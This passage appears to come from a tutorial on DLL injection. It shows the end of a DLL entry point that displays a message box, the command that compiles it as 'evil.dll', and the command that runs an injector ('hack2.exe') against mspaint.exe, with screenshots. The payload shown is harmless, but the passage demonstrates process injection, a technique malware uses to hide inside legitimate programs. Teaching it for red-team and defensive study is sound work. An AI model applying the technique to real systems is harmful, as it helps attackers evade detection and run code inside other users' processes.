 ```cpp
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

compile and put it in a directory of our choice:   
```bash
x86_64-w64-mingw32-g++ -shared -o evil.dll evil.cpp -fpermissive
```

![compile evil dll](./images/9/2021-09-30_02-42.png){width="80%"}

run:
```cmd
.\hack2.exe mspaint.exe
```
![run hack2.exe](./images/9/2021-09-30_03-10.png){width="80%"}
